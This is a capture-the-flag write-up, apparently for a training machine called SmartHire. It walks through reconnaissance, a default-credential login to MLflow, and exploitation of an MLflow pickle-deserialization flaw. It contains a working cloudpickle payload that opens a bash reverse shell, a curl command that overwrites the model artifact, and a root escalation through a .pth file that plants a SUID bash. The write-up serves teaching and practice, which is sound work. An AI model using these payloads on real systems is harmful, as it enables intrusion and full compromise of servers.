




# SmartHire

# Reconnaisonce

## Features

- platform:"",env:{},versions:{node:"14.17.6”
- nginx[1.18.0]
- Ubuntu
- MLflow 2.14.1

---

## Whatweb

```bash
http://smarthire.htb [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.129.245.215], Script, Title[Overview | SmartHIRE], nginx[1.18.0]
```

## Nmap

```bash
sudo nmap -sC -sV -O -p- --min-rate 5000 -oN nmap_full.txt 10.129.245.215

sudo: unable to resolve host kali: Temporary failure in name resolution
Starting Nmap 7.99 ( https://nmap.org ) at 2026-09-21 13:48 -0400
Nmap scan report for smarthire.htb (10.129.245.215)
Host is up (0.27s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 41:3c:e3:bb:88:70:99:7f:b8:96:59:48:9b:85:98:69 (ECDSA)
|_  256 d5:9d:fd:6b:be:d8:39:6f:3f:43:ab:0e:f6:3e:22:db (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Overview | SmartHIRE
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.64 seconds
```

## Open ports

1. **22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 (Ubuntu Linux; protocol 2.0)**
2. **80/tcp open  http    nginx 1.18.0 (Ubuntu)**

## UDP Scan

```bash
sudo nmap -sU --top-ports 50 -oA updtop 10.129.245.215                   
sudo: unable to resolve host kali: Temporary failure in name resolution
[sudo] password for kali: 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-09-21 14:41 -0400
Nmap scan report for smarthire.htb (10.129.245.215)
Host is up (0.31s latency).
Not shown: 47 closed udp ports (port-unreach)
PORT    STATE         SERVICE
68/udp  open|filtered dhcpc
111/udp open|filtered rpcbind
626/udp open|filtered serialnumberd
```

## Fuff for Vhosts

```bash
ffuf -u "http://10.129.245.215/" -H "Host: FUZZ.smarthire.htb" \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fs 178

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.245.215/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.smarthire.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 178
________________________________________________

models                  [Status: 401, Size: 137, Words: 11, Lines: 1, Duration: 274ms]
```

I later discovered that the website’s subdomain was running a **mlflow** instance.



After trying several credentials, I was able to log in using the default credentials, “admin:password.”



## MLflow version 2.14.1: CVE **CVE-2024-37054**

This version is affected by critical vulnerabilities, most notably , which is an unsafe deserialization flaw leading to remote code execution (RCE)

- **Key Vulnerability Details (CVE-2024-37054)Vulnerable component:**`mlflow.pyfunc.load_model` (specifically `_load_pyfunc` in `mlflow/pyfunc/model.py`)**Impact:** Remote code execution (RCE).
- **Attack vector:** Network.
- **Severity:** High to critical (related deserialization issues such as CVE-2024-37052, which has a score of 8.8/10).
- **Description:** An attacker can craft a malicious model artifact that executes arbitrary code on the server when loaded using MLflow's Python function flavor.

# Exploitation

## Foothole

### Poisoning the MLflow .pkl File

### Generate a .PKL file conttaining the reverse shell code

```bash

import cloudpickle

class RCE:
    def __reduce__(self):
        return (__import__('os').system,
                ("setsid nohup bash -c 'bash -i >& /dev/tcp/LHOST_IP/LPORT_IP 0>&1' "
                 ">/dev/null 2>&1 &",))
    def predict(self, *a, **k):
        return None

with open("python_model.pkl", "wb") as f:
    cloudpickle.dump(RCE(), f, protocol=4)
print("[+] python_model.pkl written")
```

### Swap the MLflow model’s .KPL file

First, find the model ID that needs to be swapped.

```bash
# 2. Upload (overwrite in place)
curl -u admin:password -T python_model.pkl \
  "http://models.smarthire.htb/api/2.0/mlflow-artifacts/artifacts/0/"YOUR_MODEL_ID/"YOUR_PKL_FILE".pkl"
```



After swapping the model with the poisoned one, do not train any model.

### Launch our NC (nc -lvnp 4444)

1. Start a Netcat listener: `nc -lvnp 4444`.
2. In SmartHIRE, open **Make Prediction**.
3. Upload a CSV for analysis. Do not train a new model.
4. When the poisoned model is analyzed, check the listener for the reverse-shell connection.



# Privilege Escalation

After gaining a foothold, I landed as the web server’s user. I needed to conduct further reconnaissance to identify vulnerabilities that could lead to higher privileges.

```bash
(root) NOPASSWD: /usr/bin/python3.10 /opt/tools/mlflow_ctl/mlflowctl.py *
```

sudo says: *svcweb may run this exact interpreter on this exact script as root, no password, any arguments.*

- **Step 2 The script imports code from a directory tree we influence**

```bash
for path in PLUGINS_DIR.iterdir():   # lists plugins/* — including plugins/dev
    if path.is_dir():
        site.addsitedir(str(path))   # makes that directory importable
```

The script advertises a "pluggable extension model." Every subdirectory of `plugins/` gets injected into Python's module search path. **Critical detail: this runs at module level** — outside `main()`, before any argument parsing.

- **Step 3  `site.addsitedir()` and the `.pth` execution primitive**

`addsitedir()` does two things: appends the dir to `sys.path`, **and processes any `.pth` file inside it** (that's standard Python `site` module behavior).

A `.pth` file is normally a list of paths to add. But the spec has a hidden feature: **any line beginning with `import` is executed as Python code**, at that moment.

```bash
import os; os.system("cp /bin/bash /tmp/rootbash && chmod 4755 /tmp/rootbash")
```

**Step 4  Group membership gave me the write permission**

`id` showed `devs (1002)`. The group-territory scan found `/opt/tools/mlflow_ctl/plugins/dev` writable by that group. The design intent is innocent  "developers drop plugins here"  but combine *write access* with *root executes everything in there* and you get: **untrusted code executed by a privileged process**. That's the core rule violated.

- **Step 5  The payload: SUID copy instead of a direct shell**

```bash
cp /bin/bash /tmp/rootbash && chmod 4755 /tmp/rootbash
```

Running as root at that instant, I minted a **persisted privilege escalation primitive**: a bash binary owned by root with the SUID bit `-rwsr-xr-x` .

### Step 6 The `p` flag: bash's anti-SUID defense

I experienced this firsthand: without flags, bash **deliberately drops euid to uid** on startup.  A decades-old protection against naive SUID shells (the kernel grants euid=0; bash throws it away). `-p` = "privileged mode": *keep the effective identity, skip startup files.* With it: `euid=0(root)`. That's why the final `id` finally showed root.